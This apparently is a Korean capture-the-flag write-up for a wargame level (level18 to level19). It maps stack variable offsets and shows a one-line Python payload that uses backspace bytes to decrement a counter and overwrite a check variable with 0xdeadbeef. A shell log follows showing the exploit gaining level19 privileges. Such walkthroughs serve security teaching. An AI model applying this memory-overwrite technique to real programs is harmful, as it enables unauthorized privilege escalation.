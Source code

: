 >수집한 정보

변 수 | 주 소 
--- | ---
string | ebp-100
count | ebp-112
x | ebp-108
check | ebp-104

`string` 에 입력을 받을 때 `count` 를 4 줄이고 그 부분에 `deadbeef` 를 넣겠다.

## <img src="https://pngimg.com/uploads/road/road_PNG24.png" width="25"> **Payload**
>메모리 구조
```
| count[4] | x[4] | check[4] | string[100] | sfp[4] | ret[4] |
```

>Payload
```
 (python -c "print '\x08'*4+'\xef\xbe\xad\xde'";cat) | ./attackme 
```

## <img src="https://maxcdn.icons8.com/windows8/PNG/512/Military/sword-512.png" width="25"> **Attack**
```
[level18@ftz level18]$ (python -c "print '\x08'*4+'\xef\xbe\xad\xde'";cat) | ./attackme 
Enter your command: 

id
uid=3099(level19) gid=3098(level18) groups=3098(level18)
my-pass               

Level19 Password is "~~~~~~~~~".
```